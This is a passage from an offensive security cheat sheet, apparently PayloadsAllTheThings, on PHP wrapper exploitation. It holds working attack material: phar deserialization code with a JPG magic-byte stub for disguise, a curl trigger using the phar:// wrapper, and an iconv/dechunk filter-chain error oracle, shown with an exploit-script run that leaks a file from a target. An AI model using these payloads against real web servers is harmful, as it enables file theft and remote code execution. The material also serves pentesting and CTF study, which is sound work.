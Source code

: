 ```php
$phar->setMetadata($object);
$phar->stopBuffering();
```

Finally call the phar wrapper: `curl http://127.0.0.1:8001/?page=phar:///var/www/html/deser.phar`

NOTE: you can use the `$phar->setStub()` to add the magic bytes of JPG file: `\xff\xd8\xff`

```php
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
```


## Wrapper convert.iconv:// and dechunk://

### Leak file content from error-based oracle

- `convert.iconv://`: convert input into another folder (`convert.iconv.utf-16le.utf-8`)
- `dechunk://`: if the string contains no newlines, it will wipe the entire string if and only if the string starts with A-Fa-f0-9

The goal of this exploitation is to leak the content of a file, one character at a time, based on the [DownUnderCTF](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py) writeup.
 
**Requirements**:

- Backend must not use `file_exists` or `is_file`.
- Vulnerable parameter should be in a `POST` request. 
  - You can't leak more than 135 characters in a GET request due to the size limit

The exploit chain is based on PHP filters: `iconv` and `dechunk`:

1. Use the `iconv` filter with an encoding increasing the data size exponentially to trigger a memory error.
2. Use the `dechunk` filter to determine the first character of the file, based on the previous error.
3. Use the `iconv` filter again with encodings having different bytes ordering to swap remaining characters with the first one.


Exploit using [synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit), the script will use either the `HTTP status code: 500` or the time as an error-based oracle to determine the character.

```ps1
$ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
[*] The following URL is targeted : http://127.0.0.1
[*] The following local file is leaked : /test
[*] Running POST requests
[+] File /test leak is finished!
```

### Leak file content inside a custom format output

* [ambionics/wrapwrap](https://github.com/ambionics/wrapwrap) - Generates a `php://filter` chain that adds a prefix and a suffix to the contents of a file.
